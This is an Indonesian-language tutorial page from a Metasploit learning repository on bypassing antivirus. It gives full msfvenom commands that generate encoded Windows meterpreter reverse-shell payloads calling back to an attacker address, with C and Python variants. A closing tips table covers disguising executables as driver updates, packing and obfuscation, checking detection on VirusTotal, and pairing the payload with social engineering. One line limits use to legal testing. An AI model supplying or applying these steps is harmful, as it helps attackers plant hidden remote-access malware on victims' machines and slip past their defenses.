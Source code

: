 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Membuat%20Listener.md">Membuat Listener</a>
</p>

# Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV. |
| `Packing/Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file. | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode`. |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit. |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.100`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder: `x86/shikata_ga_nai`
- `-i`: Iterasi encoder: `10`
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe`

Encoder Populer di Metasploit:
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Untuk melihat semua encoder yang ada di MSFvenom ketikkan:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `c`
   - `-o` : Nama file hasil payload: `payload.c`

  
   Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `python`
   - `-o` : Nama file hasil payload: `payload.py`
  
   Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Exploit%20Real%20Target%3A%20Windows%207%20SP1%20dengan%20EternalBlue%20(MS17-010).md">Exploit Real Target: Windows 7 SP1 dengan EternalBlue (MS17-010)</a>
</p>
